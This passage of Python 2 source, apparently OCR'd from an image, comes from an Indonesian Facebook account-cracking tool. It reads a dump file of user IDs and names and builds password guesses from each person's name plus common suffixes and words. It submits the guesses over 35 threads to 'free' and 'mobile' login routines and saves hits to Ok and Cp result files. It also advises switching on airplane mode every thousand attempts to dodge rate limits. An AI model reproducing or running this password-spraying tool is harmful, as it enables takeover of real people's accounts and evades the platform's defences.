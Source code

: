                 elif ___password___ in ['3','03']:
                    pwx = [nama, ox[0]+'123', ox[0]+'12345', 'Sayang', 'Anjing', 'Bangsat', 'Kontol', 'Bismillah', '123456', 'Cantik']
                elif ___password___ in ['4','04']:
                    pwx = pwd
                else:
                    pwx = [nama, ox[0]+'123', ox[0]+'1234', ox[0]+'12345']
                hayuk.submit(free, ids, uid, pwx)
        os.remove(___file___)
        exit("\n%s[%sSelesai%s]"%(B,H,B))
    elif ___metode___ in ['3','03']:
        print("\n%s[%s1%s]%s Auto Password [nama,nama123,nama12345]"%(H,P,H,P))
        print("%s[%s2%s]%s Auto Password [nama,nama123,nama1234,nama12345,nama123456]"%(H,P,H,P))
        print("%s[%s3%s]%s Auto Password [nama,nama123,nama1234,nama12345,Sayang,Dll]"%(H,P,H,P))
        print("%s[%s4%s]%s Gunakan Password Manual [ >6 ]"%(H,P,H,P))
        ___password___ = raw_input("\n%s[%s?%s]%s Choose :%s "%(B,H,B,P,K))
        if ___password___ in ['4','04']:
            print("\n%s[%s*%s]%s Gunakan Tanda Koma Untuk Password Berbeda. Contoh : Sayang,Cantik"%(H,P,H,P))
            pwd = raw_input("%s[%s?%s]%s Password :%s "%(H,P,H,P,B)).split(',')
            if pwd <=5:
                exit("%s[%s!%s]%s Password Harus Lebih Dari 6 Karakter"%(P,M,P,M))
        try:
            ___file___ = raw_input("%s[%s?%s]%s File Dump :%s "%(H,P,H,P,B))
            ids=open(___file___).read().splitlines()
        except:
            exit("%s[%s!%s]%s File Tidak Ada"%(P,M,P,M))
        print("\n%s[%sâ€¢%s]%s Hasil Ok Tersimpan Di :%s Results/Ok.txt"%(B,P,B,P,H))
        print("%s[%sâ€¢%s]%s Hasil Cp Tersimpan Di :%s Results/Cp.txt"%(B,P,B,P,K))
        print("%s[%s!%s]%s Gunakan Mode Pesawat Di Angka 1000,2000...\n"%(B,M,B,P))
        with ThreadPoolExecutor(max_workers=35) as (hayuk):
            for user in ids:
                uid, nama = user.split('<=>')
                ox = nama.split(' ')
                if ___password___ in ['1','01']:
                    pwx = [nama, ox[0]+'123', ox[0]+'12345']
                elif ___password___ in ['2','02']:
                    pwx = [nama, ox[0]+'123', ox[0]+'1234', ox[0]+'12345', ox[0]+'123456']
                elif ___password___ in ['3','03']:
                    pwx = [nama, ox[0]+'123', ox[0]+'12345', 'Sayang', 'Anjing', 'Bangsat', 'Kontol', 'Bismillah', '123456', 'Cantik']
                elif ___password___ in ['4','04']:
                    pwx = pwd
                else:
                    pwx = [nama, ox[0]+'123', ox[0]+'1234', ox[0]+'12345']
                hayuk.submit(mobile, ids, uid, pwx)
        os.remove(___file___)
        exit("\n%s[%sSelesai%s]"%(B,H,B))
    elif ___metode___ in ['4','04']:
        print("\n%s[%s1%s]%s Auto Password [nama,nama123,nama12345]"%(H,P,H,P))
        print("%s[%s2%s]%s Auto Password [nama,nama123,nama1234,nama12345,nama123456]"%(H,P,H,P))
        print("%s[%s3%s]%s Auto Password [nama,nama123,nama1234,nama12345,Sayang,Dll]"%(H,P,H,P))
        print("%s[%s4%s]%s Gunakan Password Manual [ >6 ]"%(H,P,H,P))
        ___password___ = raw_input("\n%s[%s?%s]%s Choose :%s "%(B,H,B,P,K))
        if ___password___ in ['4','04']:
            print("\n%s[%s*%s]%s Gunakan Tanda Koma Untuk Password Berbeda. Contoh : Sayang,Cantik"%(H,P,H,P))
            pwd = raw_input("%s[%s?%s]%s Password :%s "%(H,P,H,P,B)).split(',')
            if pwd <=5:
                exit("%s[%s!%s]%s Password Harus Lebih Dari 6 Karakter"%(P,M,P,M))
        try:
            ___file___ = raw_input("%s[%s?%s]%s File Dump :%s "%(H,P,H,P,B))
            ids=open(___file___).read().splitlines()
        except:
            exit("%s[%s!%s]%s File Tidak Ada"%(P,M,P,M))
        print("\n%s[%sâ€¢%s]%s Hasil Ok Tersimpan Di :%s Results/Ok.txt"%(B,P,B,P,H))